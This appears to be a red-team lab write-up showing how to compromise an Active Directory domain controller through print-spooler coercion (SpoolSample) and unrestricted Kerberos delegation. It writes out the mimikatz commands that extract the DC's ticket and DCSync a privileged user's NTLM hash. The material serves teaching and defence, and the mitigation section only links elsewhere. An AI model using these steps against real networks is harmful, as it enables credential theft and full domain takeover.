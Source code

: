```yaml
---
layout: post
title: "2024-06-18-domain compromise via dc print server and kerberos delegation"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /domain-compromise-via-dc-print-server-and-kerberos-delegation/
---
```


# Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller (or any other host to be fair) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled.&#x20;
  * This is done via RPC API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md)

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled (attacker, server)
* dc01 - domain controller running a print service (victim, target)

We can check if a spool service is running on a remote host like so:

```
ls \\dc01\pipe\spoolss
```

![](<../../.gitbook/assets/image (503).png>)

If the spoolss was not running, we would receive an error.

Another way to check if the spoolss is running on a remote machine is:

![](<../../.gitbook/assets/image (504).png>)

Now, after compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin\_), we execute it with two arguments `target` and `server` (DC with spoolss running on it):

```csharp
.\SpoolSample.exe dc01 ws01
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-32-34.png>)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-33-49.png>)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-43-32.png>)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved -  get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}
@spotheplanet

